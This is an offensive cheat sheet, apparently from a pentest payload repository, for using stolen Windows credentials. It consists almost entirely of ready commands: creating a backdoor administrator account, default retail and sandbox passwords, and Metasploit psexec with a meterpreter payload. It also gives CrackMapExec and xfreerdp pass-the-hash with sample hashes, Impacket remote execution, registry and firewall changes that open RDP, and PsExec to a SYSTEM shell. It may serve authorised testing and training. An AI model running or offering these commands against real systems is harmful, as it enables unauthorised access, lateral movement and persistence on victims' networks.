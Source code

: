 # Windows - Using credentials

## TIP 1 - Create your credential :D

```powershell
net user hacker hacker /add
net localgroup administrators hacker /add
```

Some info about your user

```powershell
net user /dom
net user /domain
```

## TIP 2 - Retail Credential [@m8urnett on Twitter](https://twitter.com/m8urnett/status/1003835660380172289)

when you run Windows in retail demo mode, it creates a user named Darrin DeYoung and an admin RetailAdmin

```powershell
Username: RetailAdmin
Password: trs10
```

## TIP - Sandbox Credential - WDAGUtilityAccount - [@never_released on Twitter](https://twitter.com/never_released/status/1081569133844676608)

Starting with Windows 10 version 1709 (Fall Creators Update), it is part of Windows Defender Application Guard

```powershell
\\windowssandbox
Username: wdagutilityaccount
Password: pw123
```


## Metasploit - SMB

```c
use auxiliary/scanner/smb/smb_login  
set SMBDomain CSCOU  
set SMBUser jarrieta
set SMBPass nastyCutt3r
services -p 445 -R  
run
creds
```

## Metasploit - Psexec

Note: the password can be replaced by a hash to execute a `pass the hash` attack.

```c
use exploit/windows/smb/psexec
set RHOST 10.2.0.3
set SMBUser jarrieta
set SMBPass nastyCutt3r
set PAYLOAD windows/meterpreter/bind_tcp
run
shell
```

## Crackmapexec (Integrated to Kali)

```python
git clone https://github.com/byt3bl33d3r/CrackMapExec.github
python crackmapexec.py 10.9.122.0/25 -d CSCOU -u jarrieta -p nastyCutt3r
python crackmapexec.py 10.9.122.5 -d CSCOU -u jarrieta -p nastyCutt3r -x whoami
```

## Crackmapexec (Pass The Hash)

```powershell
cme smb 172.16.157.0/24 -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:5509de4ff0a6eed7048d9f4a61100e51' --local-auth
```

## Winexe (Integrated to Kali)

```python
winexe -U CSCOU/jarrieta%nastyCutt3r //10.9.122.5 cmd.exe
```

## Psexec.py / Smbexec.py / Wmiexec.py (Impacket)

```python
git clone https://github.com/CoreSecurity/impacket.git
python psexec.py CSCOU/jarrieta:nastyCutt3r@10.9.122.5
python smbexec.py CSCOU/jarrieta:nastyCutt3r@10.9.122.5
python wmiexec.py CSCOU/jarrieta:nastyCutt3r@10.9.122.5
```

## RDP Remote Desktop Protocol (Impacket)

```powershell
python rdpcheck.py CSCOU/jarrieta:nastyCutt3r@10.9.122.5
rdesktop -d CSCOU -u jarrieta -p nastyCutt3r 10.9.122.5 -g 70% 
# -g : the screen will take up 70% of your actual screen size
```

Note: you may need to enable it with the following command

```powershell
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x00000000 /f
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
```

or with psexec(sysinternals)

```powershell
psexec \\machinename reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
```

or with crackmapexec

```powershell
crackmapexec 192.168.1.100 -u Jaddmon -H 5858d47a41e40b40f294b3100bea611f -M rdp -o ACTION=enable
```

For Server 2012 R2, Win8.1+

```powershell
xfreerdp /u:offsec /d:win2012 /pth:88a405e17c0aa5debbc9b5679753939d /v:192.168.1.12
```

with Metasploit

```powershell
run getgui -u admin -p 1234
```

## Netuse (Windows)

```powershell
net use \\ordws01.cscou.lab /user:CSCOU\jarrieta nastyCutt3r
C$
```

## Runas (Windows - Kerberos auth)

```powershell
runas /netonly /user:CSCOU\jarrieta "cmd.exe"
```

## PsExec (Windows - [Sysinternal](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) )

```powershell
PsExec.exe  \\ordws01.cscou.lab -u CSCOU\jarrieta -p nastyCutt3r cmd.exe
PsExec.exe  \\ordws01.cscou.lab -u CSCOU\jarrieta -p nastyCutt3r cmd.exe -s  # get System shell
```

## References

- [Ropnop - Using credentials to own Windows boxes](https://blog.ropnop.com/using-credentials-to-own-windows-boxes/)
- [Ropnop - Using credentials to own Windows boxes Part 2](https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/)
- [Gaining Domain Admin from Outside Active Directory](https://markitzeroday.com/pass-the-hash/crack-map-exec/2018/03/04/da-from-outside-the-domain.html)
